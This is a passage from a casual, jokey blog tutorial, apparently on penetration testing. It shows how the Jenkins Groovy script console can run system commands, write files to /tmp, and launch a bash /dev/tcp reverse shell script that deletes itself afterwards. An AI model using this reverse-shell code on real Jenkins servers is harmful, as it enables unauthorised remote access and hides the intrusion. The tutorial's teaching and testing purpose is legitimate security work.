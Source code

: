 <h3>Writing to the Page</h3>

In the text on the script page, the site instructs you to use 'println()' in order to read on the page rather than 'System.out'.  Unfortunately, 'println()' is still just going to give the process object again.

But here's the skinny: Groovy UNIXprocess objects have a method called 'getText()' that gives the output of the command.
<figure style="text-align:center; margin:1em;">
<img src="/resources/content/images/2018/12/text-1.PNG" alt="text method" style="width:15em; height:15em;">
<figcaption style="font-size:small">
Psychedelic dude...</figcaption>
</figure>
Dyno-mite!!  So in order to run commands, we put in the string we want to 'execute()' and then write it to the screen with 'getText()'. 

So we can read anything, but let's try to get a shell now.  This next part will assume that Jenkins is running on a Linux server, but it can be adapted to fit the needs of any environment.

<h3>File Operations</h3>
In order to write to a file in Groovy, you can use pretty easy file I/O commands.  Here is an example of code that writes "Groovy is Radical, Man!" to a file.

```
def file1 = new File('groovy.txt')
file1 << "Groovy is Radical, Man!"
```
<figure style="text-align:center; margin:1em;">
<img src="/resources/content/images/2018/12/denied.PNG" alt="denied" style="width:15em; height:15em;">
<figcaption style="font-size:small">
PSYCH!</figcaption>
</figure>
Ah that's bogus dude.  Looks like the man is keeping us from writing to the server root.  /tmp is pretty chill though.
<figure style="text-align:center; margin:1em;">
<img src="/resources/content/images/2018/12/written.PNG" alt="denied" style="width:15em; height:15em;">
<figcaption style="font-size:small">
That's rad...</figcaption>
</figure>

# Execute a Shell
So using all this together, we can put together a pretty slammin' reverse shell script.  
```
def shell = new File('/tmp/shell.sh')
shell << "bash -i >& /dev/tcp/127.0.0.1/4567 0>&1"
"/bin/bash /tmp/shell.sh".execute()
sleep(1000)
shell.delete()
```
So you can see we have a file object that we write the bash reverse shell to, We run it using bash.  Then we give everything a second to chill out before we clean it all up.  Let's get jiggy with it.
<figure style="text-align:center; margin:1em;">
<img src="/resources/content/images/2018/12/shell.gif" alt="reverse shell" style="width:75%;">
<figcaption style="font-size:small">
Groovy</figcaption>
</figure>
